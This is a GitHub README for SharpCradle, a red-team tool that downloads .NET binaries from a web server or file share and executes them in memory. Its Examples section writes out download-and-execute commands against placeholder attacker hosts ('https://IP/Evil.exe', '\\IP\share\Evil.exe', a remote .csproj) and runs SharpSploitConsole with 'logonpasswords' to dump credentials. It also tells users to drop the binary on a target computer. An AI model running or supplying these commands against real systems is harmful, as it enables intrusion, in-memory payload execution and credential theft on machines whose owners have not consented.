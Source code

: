 # SharpCradle

Description
============

SharpCradle is a tool designed to help penetration testers or red teams download and execute .NET binaries into memory.

Contact at:
- Twitter: @anthemtotheego

Contributors: @bohops - Download .NET inline project file from web and execute funtionality

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpSploitConsole")
![Alt text](/SCradle2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpCradle tool and open up SharpCradle.sln                         

2. Compile for correct architecture (x64 or x86), drop binary on target computer and have fun.

Note: architecture of SharpCradle and binary you are retrieving should be the same or it might throw errors.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/Evil.exe <arguments to pass>```

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\Evil.exe <arguments to pass>```

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\Evil.exe <arguements to pass>```

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

Download .NET inline project file from web:

```SharpCradle.exe -p https://192.168.1.10/EvilProject.csproj```

